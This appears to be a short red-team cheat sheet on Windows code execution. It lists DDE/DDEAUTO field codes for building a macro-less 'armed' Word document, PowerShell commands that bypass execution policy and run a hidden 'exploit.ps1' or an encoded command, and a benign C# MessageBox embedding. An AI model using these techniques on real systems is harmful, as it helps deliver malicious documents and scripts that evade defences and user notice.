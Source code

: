 ## MSWord-Code-Exec
Leverage Dynamic Data Exchange (DDE) through the following payloads to create an armed MS Word Document
without utilizing any macros (https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/) 
* DDEAUTO
* DDE
## Bypass PowerShell Execution Policy
> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
## Instantiate PowerShell.exe with no execution policy to run a script of choice
> powershell.exe -executionpolicy bypass -windowstyle hidden -noninteractive -nologo -file "c:\temp\exploit.ps1"
## Encoded PowerShell Command
> powershell.exe –WindowStyle Hidden –noprofile –EncodedCommand <BASE64ENCODED>
## Embedding C# into PowerShell
*Add-Type -TypeDefinition @"*
>        using System;
>        using System.Diagnostics;
>        using System.Runtime.InteropServices;
>  
>        public static class User32
>        {
>              [DllImport("User32.dll", SetLastError=true, CharSet=CharSet.Unicode)]
>              public static extern int MessageBoxW(
>                              int hWnd,
>                              string lpText,
>                              string lpCaption,
>                              int uType
>              );
>        }
>  "@
*[User32]::MessageBoxW(0, "SensePost", 0x00000000L)*
